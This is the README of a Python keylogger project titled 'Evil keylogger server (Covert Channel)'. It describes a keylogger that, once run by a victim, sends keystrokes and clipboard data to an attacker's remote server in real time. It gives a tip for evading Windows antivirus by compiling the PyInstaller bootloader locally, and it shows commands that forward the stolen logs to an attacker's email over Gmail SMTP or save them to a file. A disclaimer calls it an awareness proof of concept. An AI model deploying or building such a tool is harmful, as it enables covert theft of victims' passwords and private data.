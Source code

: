 
<div align="center">
    
![Screenshot_20231005_033920](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a)

[![License: GPL-3.0](https://img.shields.io/badge/License-GPL--3.0-blue.svg)](https://opensource.org/licenses/GPL-3.0)
    
<img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Type%20-Script-violet.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Target OS%20-Windows, Linux-red.svg" style="max-width: 100%;">
<img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit, as it serves as a proof of concept and can be improved in many ways.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

And it has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![Peek 12-01-2024 00-33](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/6d4b9199-5b1a-41ac-a82c-cf6d8b7bcd31)

#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![Peek 12-01-2024 00-34](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/b4470ef2-1f89-4823-b7d2-aa012f3a698c)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
